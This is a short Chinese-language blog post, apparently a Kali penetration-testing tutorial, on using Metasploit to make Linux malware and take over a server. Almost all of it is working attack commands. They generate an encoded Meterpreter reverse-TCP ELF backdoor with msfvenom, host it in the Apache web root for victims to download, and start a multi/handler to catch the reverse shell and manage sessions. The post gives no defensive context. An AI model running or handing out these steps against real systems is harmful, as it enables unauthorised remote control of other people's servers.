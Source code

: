 ```yaml
---
title: "制作Linux恶意软件获取服务器权限"
date: 2020-02-22T19:37:26+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


Metasploit木马命令制作Linux恶意软件获取服务器权限



<!--more-->



## 实现步骤

* 生成Linux恶意软件

~~~
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=4444 -b "\x00" -f elf -i 20 -o /var/www/html/xuegod
~~~

* 开启WEB服务

~~~
systemctl start apache2
systemctl enable apache2
systemctl status apache2
~~~

* 在MSF上启动handler开始监听后门程序

~~~
msfdb run
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
run
help
background
sessions
~~~

